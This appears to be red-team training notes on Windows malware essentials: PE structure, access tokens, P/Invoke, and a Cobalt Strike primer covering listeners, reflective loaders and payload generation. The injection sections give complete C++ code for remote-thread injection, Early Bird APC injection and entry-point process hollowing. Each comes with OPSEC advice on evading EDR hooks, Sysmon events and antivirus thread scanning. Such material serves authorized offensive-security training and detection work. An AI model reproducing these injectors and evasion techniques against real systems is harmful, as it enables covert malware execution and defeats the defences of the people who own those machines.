1. Malware Essentials
1.1 PE File Format
The Portable Executable (PE) format defines how Windows programs are structured on disk and loaded into memory. Both .exe and .dll files are PEs. Understanding this format is foundational for process injection and payload development.
1.1.1 DOS Header
The DOS header (IMAGE_DOS_HEADER) is a fixed 64-byte structure at the start of every PE. Two members matter today.
| Member | Size | Description |
|---|---|---|
e_magic | 2-byte WORD | Always 4D 5A (ASCII MZ). Marks the beginning of the PE. |
e_lfanew | 4-byte LONG | Offset to the PE signature / NT headers. Always at file offset 0x3C. |
A DOS stub sits between the DOS header and the NT headers. It prints "This program cannot be run in DOS mode" under MS-DOS. The modern Windows loader skips it by jumping to the offset stored in e_lfanew.
1.1.2 NT Headers
The NT headers come in two variants: IMAGE_NT_HEADERS (32-bit) and IMAGE_NT_HEADERS64 (64-bit). They start with a 4-byte PE signature (50 45 00 00, i.e. PE\0\0) that confirms the NT header was located correctly.
The File Header (IMAGE_FILE_HEADER) describes the PE at a high level.
| Member | Description |
|---|---|
Machine | CPU architecture the PE targets (e.g., x86, x64, ARM). |
NumberOfSections | Count of sections in the PE. |
SizeOfOptionalHeader | Size of the optional header that follows. |
Characteristics | Flags describing PE attributes (DLL, executable, etc.). |
The Optional Header (IMAGE_OPTIONAL_HEADER32 / IMAGE_OPTIONAL_HEADER64) contains loader-critical fields.
| Member | Description |
|---|---|
Magic | PE32 (32-bit) vs PE32+ (64-bit). |
AddressOfEntryPoint | RVA of the PE entry point relative to the image base. |
ImageBase | Preferred base address for loading the PE into memory. |
NumberOfRvaAndSizes | Number of entries in the DataDirectory array. |
DataDirectory | Array of IMAGE_DATA_DIRECTORY structures (imports, exports, resources, etc.). |
Each IMAGE_DATA_DIRECTORY entry has a VirtualAddress (start of the directory) and Size. The import directory, for example, lists the DLLs the PE depends on.
1.1.3 PE Sections
Sections hold the actual data and code. Each is preceded by a section header.
| Section | Contents |
|---|---|
.text | Executable code. |
.data | Initialized data. |
.bss | Uninitialized data. |
.rdata | Read-only data. |
.rsrc | Resources (icons, strings, version info). |
| Header Field | Description |
|---|---|
Name | Section name (max 8 bytes). |
VirtualSize | Size of the section when loaded into memory. |
VirtualAddress | RVA of the section relative to the image base. |
SizeOfRawData | Size on disk (may differ from virtual size due to padding). |
Characteristics | Flags for memory permissions (R, RW, RX, etc.). |
1.2 Shellcode Pipeline
Most C2 frameworks ship their implant as a Windows DLL. Because loading a DLL from disk is unsuitable for many attack scenarios, the DLL is paired with an in-memory loader that resolves imports and relocations without touching disk. The loader + DLL combination is output as shellcode (a .bin file).
Shellcode cannot execute on its own. It must be injected into memory and given a thread. Frameworks also produce ready-to-run artifacts (.exe, .dll, .ps1) by embedding the shellcode inside a shellcode runner implemented in those formats.
| Artifact | Composition |
|---|---|
.bin (shellcode) | Loader + implant DLL. |
.exe / .dll / .ps1 | Shellcode runner + embedded shellcode. |
1.3 Processes and Threads
A program is a compiled PE on disk. A process is a runtime container holding the resources of that program. Multiple instances of the same program run in separate, isolated processes.
1.3.1 Process Creation APIs
| API | Purpose |
|---|---|
CreateProcessW | Spawn a process with the caller's access token. |
CreateProcessAsUserW | Spawn a process with an alternate access token. |
CreateProcessWithLogonW | Spawn a process from plaintext credentials. |
All three call into the kernel function NtCreateUserProcess.
1.3.2 Thread Creation
A thread holds CPU state (registers) and a call stack. Every process has at least one thread executing its entry point.
| API | Purpose |
|---|---|
CreateThread | Create a thread in the calling process. |
CreateRemoteThread | Create a thread in another process. |
Both call CreateRemoteThreadEx, which calls NtCreateThreadEx. The critical argument is the function pointer that serves as the thread's entry point.
1.3.3 Virtual Memory
Each process has private virtual memory that the Windows memory manager maps to physical memory (and may page to disk). Memory is managed in pages: small pages are 4 KB (x86/x64); large pages are 2 MB (x86/x64).
| API Family | Use Case | Key Functions |
|---|---|---|
| Virtual | General allocations (page-granular) | VirtualAlloc, VirtualFree, VirtualProtect |
| Heap | Sub-page allocations | HeapAlloc, HeapReAlloc, HeapFree |
| File Mapping | Map files into memory, share across processes | CreateFileMappingA, MapViewOfFile |
1.3.4 Process Termination
| API | Scope | Behavior |
|---|---|---|
ExitProcess | Self only | Graceful: DLLs get DLL_PROCESS_DETACH notification before cleanup. |
TerminateProcess | Another process | Forceful: threads killed immediately, no cleanup. May cause data loss. |
1.4 Access Tokens and Privileges
Every process receives a primary access token at creation, describing the security context of the user who started it (user SID, group SIDs, privileges). Actions taken by the process occur under this context.
Threads inherit the process token by default but can impersonate another user's token. Work performed by that thread then runs under the impersonated context.
1.4.1 Access Checks
Every securable object (files, processes, threads) has a DACL (Discretionary Access Control List) specifying who has what access. When a caller acts on an object, Windows compares the caller's token against the DACL and grants or denies access.
1.4.2 Dangerous Privileges
Privileges grant the right to perform system-level operations. They are assigned via GPO or secpol and must be explicitly enabled via AdjustTokenPrivileges before use. The callee verifies the privilege with LsaEnumerateAccountRights.
| Privilege | Impact |
|---|---|
SeDebugPrivilege | Open handles to any process, including SYSTEM-owned. |
SeTakeOwnershipPrivilege | Take ownership of any securable object. |
SeRestorePrivilege | Replace any file on the system. |
SeLoadDriverPrivilege | Load a device driver into the kernel. |
SeCreateTokenPrivilege | Create arbitrary tokens with any SID, group, or privilege. |
Any user who can enable one of these privileges can effectively take full control of the machine.
1.5 P/Invoke for Win32 APIs
Platform Invoke (P/Invoke) allows C# code to call unmanaged Win32 API functions. Functions are declared with the extern keyword and [DllImport] attribute.
| Attribute / Parameter | Purpose |
|---|---|
[DllImport("kernel32.dll")] | Specifies the unmanaged DLL containing the target function. |
SetLastError = true | Enables Marshal.GetLastWin32Error() for error recovery. |
DefaultDllImportSearchPaths(System32) | Prevents DLL hijacking by restricting search to System32. |
CharSet = CharSet.Ansi | Marshal strings as UTF-8 for *A API variants. |
CharSet = CharSet.Unicode | Marshal strings as UTF-16 for *W API variants. |
C# lacks Windows header files (Windows.h), so structs and enums like PROCESS_ACCESS_RIGHTS must be defined manually. Pre-made definitions are available at pinvoke.net.
| Access Right | Value | Description |
|---|---|---|
PROCESS_TERMINATE | 0x00000001 | Terminate the process. |
PROCESS_CREATE_THREAD | 0x00000002 | Create a thread in the process. |
PROCESS_VM_OPERATION | 0x00000008 | Perform memory operations (allocate, protect). |
PROCESS_VM_READ | 0x00000010 | Read memory from the process. |
PROCESS_VM_WRITE | 0x00000020 | Write memory to the process. |
PROCESS_QUERY_INFORMATION | 0x00000400 | Query full process information. |
PROCESS_ALL_ACCESS | 0x001FFFFF | All possible access rights. |
Methodology
- Declare a P/Invoke signature for a Win32 API function:
[DllImport("kernel32.dll", SetLastError = true)] [DefaultDllImportSearchPaths(DllImportSearchPath.System32)] internal static extern IntPtr OpenProcess( PROCESS_ACCESS_RIGHTS dwDesiredAccess, bool bInheritHandle, int dwProcessId); - Define the required enums and structs manually (or source from pinvoke.net):
[Flags] internal enum PROCESS_ACCESS_RIGHTS : uint { PROCESS_VM_OPERATION = 0x00000008, PROCESS_VM_READ = 0x00000010, PROCESS_VM_WRITE = 0x00000020, PROCESS_ALL_ACCESS = 0x001FFFFF }
1.6 Process Injection
Process injection (MITRE T1055) places untrusted code into a trusted process's address space. This can bypass defenses and inherit the target's security context. The general pattern is: allocate memory, write shellcode, execute via a thread or callback.
Methodology
- Self-inject with
VirtualAlloc+WriteProcessMemory+CreateThread:auto hMemory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); WriteProcessMemory(GetCurrentProcess(), hMemory, &shellcode, sizeof(shellcode), &bytesWritten); auto hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)hMemory, NULL, 0, &threadId); WaitForSingleObject(hThread, INFINITE); - Remote inject into another process by PID using
OpenProcess+VirtualAllocEx+CreateRemoteThread:auto hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); auto hMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); WriteProcessMemory(hProcess, hMemory, &shellcode, sizeof(shellcode), &bytesWritten); auto hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)hMemory, NULL, 0, &threadId); - Suspend + context swap to evade thread-creation scanning: create a thread in
CREATE_SUSPENDEDstate pointing at a dummy function, sleep, then setRIPto the shellcode viaSetThreadContextand resume:auto hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&dummy, NULL, CREATE_SUSPENDED, &threadId); Sleep(5000); CONTEXT ctx = { 0 }; ctx.ContextFlags = CONTEXT_ALL; GetThreadContext(hThread, &ctx); ctx.Rip = (DWORD64)hMemory; SetThreadContext(hThread, &ctx); ResumeThread(hThread);
1.6.1 Complete Remote Process Injector
- Full remote injection with RW→RX memory protection:
auto hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); auto hMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); WriteProcessMemory(hProcess, hMemory, &shellcode, sizeof(shellcode), &bytesWritten); DWORD oldProtect; VirtualProtectEx(hProcess, hMemory, sizeof(shellcode), PAGE_EXECUTE_READ, &oldProtect); auto hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)hMemory, NULL, 0, &threadId); WaitForSingleObject(hThread, INFINITE);
OPSEC
PAGE_EXECUTE_READWRITE(RWX) memory is a strong indicator of injection; allocate as RW, write shellcode, thenVirtualProtectto RX.CreateRemoteThreadtargeting cross-process handles triggers ETW events and Sysmon Event ID 8; prefer APC or callback-based execution.- AV can scan new thread start addresses at creation time; suspended-thread + context swap adds a layer of indirection.
1.7 APC Injection
Asynchronous Procedure Calls (APCs) provide an alternative execution method. Instead of creating a new thread, an APC is queued on an existing thread. When that thread enters an alertable state (e.g., calls SleepEx, WaitForSingleObjectEx), the queued function runs.
Methodology
- Thread-walk the target process to find a valid thread ID, then queue the APC:
auto hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0); THREADENTRY32 te = { 0 }; te.dwSize = sizeof(te); Thread32First(hSnapshot, &te); do { if (te.th32OwnerProcessID == pid) { threadId = te.th32ThreadID; break; } te.dwSize = sizeof(te); } while (Thread32Next(hSnapshot, &te)); - Allocate, write shellcode, then queue with
QueueUserAPC:auto hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, threadId); QueueUserAPC((PAPCFUNC)hMemory, hThread, 0); - Use the Early Bird technique to guarantee APC execution: spawn a process in
CREATE_SUSPENDED, queue the APC on its primary thread, then resume:CreateProcess(L"C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, L"C:\\Windows\\System32", &si, &pi); auto hMemory = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); WriteProcessMemory(pi.hProcess, hMemory, &shellcode, sizeof(shellcode), &bytesWritten); QueueUserAPC((PAPCFUNC)hMemory, pi.hThread, 0); ResumeThread(pi.hThread);
1.7.1 Complete Early Bird APC Injector
- Full Early Bird APC injection with RW→RX protection:
STARTUPINFO si = { sizeof(si) }; PROCESS_INFORMATION pi = { 0 }; CreateProcess(L"C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, L"C:\\Windows\\System32", &si, &pi); auto hMemory = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); WriteProcessMemory(pi.hProcess, hMemory, &shellcode, sizeof(shellcode), &bytesWritten); DWORD oldProtect; VirtualProtectEx(pi.hProcess, hMemory, sizeof(shellcode), PAGE_EXECUTE_READ, &oldProtect); QueueUserAPC((PAPCFUNC)hMemory, pi.hThread, 0); ResumeThread(pi.hThread);
OPSEC
- Standard APC injection has no guarantee the target thread will become alertable; the shellcode may never run.
- Queuing APCs on every thread in a process will crash it; use the Early Bird technique for reliability.
- Spawning a suspended process from an unusual parent can trigger parent-child process heuristics; choose a plausible child process for the context.
1.8 Process Hollowing
Process hollowing starts a process in a suspended state, unmaps the original PE from memory, and maps a new PE in its place. A lighter variant skips the unmapping step and overwrites the PE's entry point with shellcode. When the process resumes, its primary thread executes the injected code instead of the legitimate program.
Methodology
- Spawn target process in suspended state:
CreateProcess(L"C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, L"C:\\Windows\\System32", &si, &pi); - Locate the PEB and image base address via
NtQueryInformationProcess:PROCESS_BASIC_INFORMATION pbi = { 0 }; NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &returnLength); auto lpBaseAddress = (LPVOID)((DWORD64)(pbi.PebBaseAddress) + 0x10); ReadProcessMemory(pi.hProcess, lpBaseAddress, &baseAddress, 8, &bytesRead); - Parse the DOS header to find
e_lfanew, read the NT headers, and calculate the entry point RVA:ReadProcessMemory(pi.hProcess, baseAddress, &dHeader, sizeof(dHeader), &bytesRead); auto lpNtHeader = (LPVOID)((DWORD64)baseAddress + dHeader.e_lfanew); ReadProcessMemory(pi.hProcess, lpNtHeader, &ntHeaders, sizeof(ntHeaders), &bytesRead); auto entryPoint = (LPVOID)((DWORD64)baseAddress + ntHeaders.OptionalHeader.AddressOfEntryPoint); - Overwrite the entry point with shellcode and resume:
WriteProcessMemory(pi.hProcess, entryPoint, shellcode, sizeof(shellcode), &bytesWritten); ResumeThread(pi.hThread);
1.8.1 Complete Process Hollowing Injector
- Full entry-point overwrite hollowing:
STARTUPINFO si = { sizeof(si) }; PROCESS_INFORMATION pi = { 0 }; CreateProcess(L"C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, L"C:\\Windows\\System32", &si, &pi); PROCESS_BASIC_INFORMATION pbi = { 0 }; ULONG returnLength; NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &returnLength); auto lpBaseAddress = (LPVOID)((DWORD64)(pbi.PebBaseAddress) + 0x10); LPVOID baseAddress; ReadProcessMemory(pi.hProcess, lpBaseAddress, &baseAddress, 8, &bytesRead); IMAGE_DOS_HEADER dHeader; ReadProcessMemory(pi.hProcess, baseAddress, &dHeader, sizeof(dHeader), &bytesRead); auto lpNtHeader = (LPVOID)((DWORD64)baseAddress + dHeader.e_lfanew); IMAGE_NT_HEADERS ntHeaders; ReadProcessMemory(pi.hProcess, lpNtHeader, &ntHeaders, sizeof(ntHeaders), &bytesRead); auto entryPoint = (LPVOID)((DWORD64)baseAddress + ntHeaders.OptionalHeader.AddressOfEntryPoint); WriteProcessMemory(pi.hProcess, entryPoint, shellcode, sizeof(shellcode), &bytesWritten); ResumeThread(pi.hThread);
OPSEC
- EDR hooks on
NtQueryInformationProcessandWriteProcessMemorycan detect the PE-parsing pattern; consider direct syscalls. - The suspended process may appear in process listings with zero CPU time; resume promptly.
- Full hollowing (unmapping + remapping) changes the image section, which some EDRs detect by comparing in-memory vs on-disk PE content.
2. Cobalt Strike Primer
2.1 Architecture
Cobalt Strike is a command and control framework that provides a post-exploitation agent designed to simulate long-term embedded threat actors. It ships with built-in capabilities for initial compromise, privilege escalation, lateral movement, MITRE ATT&CK mapping, and reporting.
The framework consists of three core components that work together during an engagement.
| Component | Role |
|---|---|
| Beacon | Post-exploitation agent. Implemented as a Windows DLL, packaged into executables, PowerShell scripts, or position-independent shellcode. Communicates with the team server, fetches jobs, executes them, and returns results. |
| Team Server | Central controller and logging system. Stores engagement data, builds data models for reports, and serves as the backend for all Beacon communications. |
| Client | Operator GUI that connects to one or more team servers. Aggregates data across multiple servers into a single cohesive view of the engagement. |
2.1.1 Distributed Operations
The standard deployment pattern uses dedicated team servers per engagement phase: initial access, post-exploitation, and persistence. If one channel is discovered and blocked, the others maintain access. a typical multi-server layout. The client consolidates listeners and sessions across all connected servers.


2.2 Listener Types
A listener defines the protocol and parameters for Beacon-to-team-server communication. Listeners fall into two categories: egress listeners that communicate directly through the network boundary, and peer-to-peer (P2P) listeners that route traffic through another Beacon.
| Category | Listener | Protocol | Description |
|---|---|---|---|
| Egress | HTTP/HTTPS | HTTP GET/POST | Beacon sends GETs to fetch tasks and POSTs to return results. Team server runs a built-in web server. |
| Egress | DNS | A / AAAA / TXT | Beacon communicates via DNS record lookups. Team server runs a built-in DNS server. Requires NS delegation. |
| P2P | SMB | Named pipe (port 445) | Beacon creates a named pipe; another Beacon connects and relays traffic to the team server. |
| P2P | TCP | TCP bind | Beacon binds a TCP port; another Beacon connects and relays traffic. Bind to 0.0.0.0 for lateral movement or 127.0.0.1 for privilege escalation. |

2.3 HTTP Listener Configuration
The HTTP listener has several configuration options that control how Beacon communicates with the team server, how it handles failures, and what security guardrails are applied.
| Setting | Purpose |
|---|---|
| HTTP Hosts | IP addresses or domains Beacon sends requests to. Can point directly to the team server or to a redirector (iptables, socat, Apache, NGINX). |
| HTTP Host (Stager) | Single host used by stager payloads to fetch the full stage. Can differ from the main HTTP hosts. |
| HTTP Port (C2) | Port Beacon connects to. Typically 80 or 8080 for HTTP. |
| HTTP Port (Bind) | Port the team server web server binds to. Set differently for port bending through a redirector. |
| HTTP Host Header | Propagated into the payload for domain fronting without hardcoding in the Malleable C2 profile. |
| HTTP Proxy | Override system proxy with hardcoded HTTP or SOCKS proxy. Not applied to stagers. |
| Profile Variant | Select a traffic variant if the loaded Malleable C2 profile defines multiple variants. |
| Guardrails | Prevent stageless payloads from executing unless criteria match: IP address, username, hostname, or domain name. |
2.3.1 Host Rotation Strategies
When multiple HTTP hosts are configured, the rotation strategy controls how Beacon distributes requests. This resists frequency analysis and provides resilience if hosts are blocked.
| Strategy | Behavior |
|---|---|
round-robin | Loops through hosts top-to-bottom; one request per host before cycling. |
random | Randomly selects a host for each request. |
failover-x | Uses the same host until x consecutive failures, then moves to the next. |
failover-m/h/d | Uses the same host until continuous failures over minutes/hours/days, then moves on. |
rotate-m/h/d | Like round-robin, but each host is used for the given time period before advancing. |
2.3.2 Max Retry Strategy
Controls Beacon self-destruct when all HTTP hosts become unreachable. Syntax: exit-[max_attempts]-[increase_attempts]-[duration][m/h/d].
| Parameter | Meaning |
|---|---|
max_attempts | Consecutive failures before Beacon exits. |
increase_attempts | Consecutive failures before Beacon increases its sleep time. |
duration | New sleep time in minutes, hours, or days. |
Example: exit-50-25-1h increases sleep to 1 hour after 25 failures, then exits at 50 failures. Setting none makes Beacon run indefinitely.
2.4 DNS Listener Configuration
The DNS listener requires NS record delegation so the team server is authoritative for one or more subdomains. DNS Beacons do not transmit metadata on initial check-in due to limited bandwidth; they appear as empty "ghost" sessions with a black monitor icon until tasked. the DNS listener configuration panel.

Methodology
- Force DNS Beacon to transmit its metadata:
checkin - Override the default DNS resolver with a custom one by entering its IP or hostname in the DNS resolver field of the listener configuration.
2.5 P2P Listener Configuration
P2P listeners do not bind on the team server. They serve as templates for payload generation. The resulting Beacons must be linked to an egress Beacon to relay traffic. Figures 5 and 6 show the SMB and TCP listener dialogs.


| Listener | Default | Notes |
|---|---|---|
| SMB | Pipe name: msagent_## (## = random hex) | Must not clash with existing pipe names. Multiple SMB listeners with different pipe names are supported. |
| TCP | Binds on configured C2 port | Bind to 0.0.0.0 for lateral movement; 127.0.0.1 for local privilege escalation. Multiple TCP listeners with different ports are supported. |
2.6 Reflective Loaders
Beacon is implemented as a DLL paired with a reflective loader that maps it into memory. Two loader styles exist in Cobalt Strike's history.
| Loader Style | Origin | Characteristics |
|---|---|---|
| Stomped (Legacy) | Stephen Fewer's ReflectiveLoader | DLL exports ReflectiveLoader. A shellcode stub overwrites the DOS header to jump to the loader in the .text section. Requires the PE to export its own loading function. |
| Prepended (4.11+) | DoublePulsar (NSA/Shadow Brokers) | Loader is prepended to the PE. No DOS header modification. Can load any PE. Supports encoding, encryption, and compression of the PE payload. |


The prepended loader is more stealthy and flexible: no shellcode stub in the DOS header, no export requirement, and the PE itself can be obfuscated arbitrarily as long as the loader handles the deobfuscation.
2.7 Staged vs Stageless Payloads
Payload staging uses a small program (stager, ~890 bytes) to fetch and execute the full payload (stage, ~307 KB) over a secondary channel. This bypasses exploit size constraints but introduces trade-offs.
| Attribute | Staged (Stager) | Stageless |
|---|---|---|
| Size | ~890 bytes | ~307,200 bytes |
| Encryption | No team server public key; no metadata encryption | Embeds the team server public key; encrypts metadata and uses per-session AES keys |
| Memory | Uses RWX memory (no room for RW-then-RX flip) | Allocates RW, then flips to RX before execution |
| MITM Risk | Susceptible to hijacking at first execution | Not susceptible; validates team server identity |
| Guardrails | Not supported | Supported (IP, username, hostname, domain) |
OPSEC
- RWX memory in stagers is anomalous in most processes — prefer stageless payloads when size permits.
- Stagers lack server authentication — an adversary on the network can intercept and replace the stage.
- Stageless payloads support guardrails that prevent execution outside the target environment, reducing risk of payload analysis in sandboxes.
2.8 Payload Generation
Beacon payloads are generated from the Payloads menu. the generation pipeline: listener configuration is patched into the Beacon DLL, options such as syscalls are enabled, the reflective loader is prepended (customizable via the BEACON_RDLL_GENERATE Aggressor hook), and the result is output as raw shellcode or patched into an artifact template.

| Payload Format | Description |
|---|---|
HTML Application (.hta) | HTML + VBScript. Methods: drop exe stager to disk, PowerShell stager in memory, or VBA macro via Excel.Application COM. Always x86. |
| MS Office Macro | VBA macro for pasting into an Office document. Always x86. |
| Stager Payload Generator | Source code output (C, Python, etc.) equivalent to msfvenom. No guardrails support. |
| Stageless Payload Generator | Same as stager generator but with additional options: exit function and syscall mode. |
| Windows Executable (Stager/Stageless) | Pre-built EXE, Service EXE (for SCM), or DLL (exports for rundll32/regsvr32). Can be code-signed. |
| Generate All Payloads | Generates all stageless variants for every listener in both x86 and x64. |

